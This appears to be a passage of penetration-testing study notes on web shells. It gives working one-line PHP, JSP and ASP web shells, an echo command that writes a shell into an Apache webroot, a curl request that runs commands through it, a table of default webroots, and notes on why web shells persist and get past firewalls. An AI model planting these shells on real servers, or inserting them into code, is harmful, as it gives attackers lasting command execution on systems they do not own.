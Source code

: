           - `export TERM=xterm-256color`
          - `stty rows 67 columns 318`

- Web Shell
  - A Web Shell is typically a web script, i.e., PHP or ASPX, that accepts our command through HTTP request parameters such as GET or POST request parameters, executes our command, and prints its output back on the web page.
  - Want a web shell that would take our command through a GET request, execute it, and print its output back.
    - A web shell script is typically a one-liner that is very short and can be memorized easily
  - php:
    - `<?php system($_REQUEST["cmd"]); ?>`
  - jsp:
    - `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
  - asp:
    - `<% eval request("cmd") %>`
  - Uploading a web shell
    - We need to place our web shell script into the remote host's web directory (webroot) to execute the script through the web browser.
    - This can be through a vulnerability in an upload feature, which would allow us to write one of our shells to a file, i.e. shell.php and upload it, and then access our uploaded file to execute commands.
    - However, if we only have remote command execution through an exploit, we can write our shell directly to the webroot to access it over the web. 
    - We can check these directories to see which webroot is in use and then use echo to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a PHP shell with the following command:
      - `echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`
    - Once we write our web shell, we can either access it through a browser or by using cURL.
      - `curl http://SERVER_IP:PORT/shell.php?cmd=id`
    - The following are the default webroots for common web servers:
| Web Server | Default Webroot |
| ----------- | ----------- |
| Apache | /var/www/html/ |
| Nginx | /usr/local/nginx/html/ |
| IIS | 	c:\inetpub\wwwroot\ |
| XAMPP | C:\xampp\htdocs\ |

- Web shells continued ...
  - A great benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on 80 or 443, or whatever port the web application is using.
  - Another great benefit is that if the compromised host is rebooted, the web shell would still be in place, and we can access it and get command execution without exploiting the remote host again.
  - On the other hand, a web shell is not as interactive as reverse and bind shells are since we have to keep requesting a different URL to execute our commands. Still, in extreme cases, it is possible to code a Python script to automate this process and give us a semi-interactive web shell right within our terminal.

## Privilege Escalation
- We want to escalate our privileges to the root user on Linux or the administrator/SYSTEM user on Windows.
  
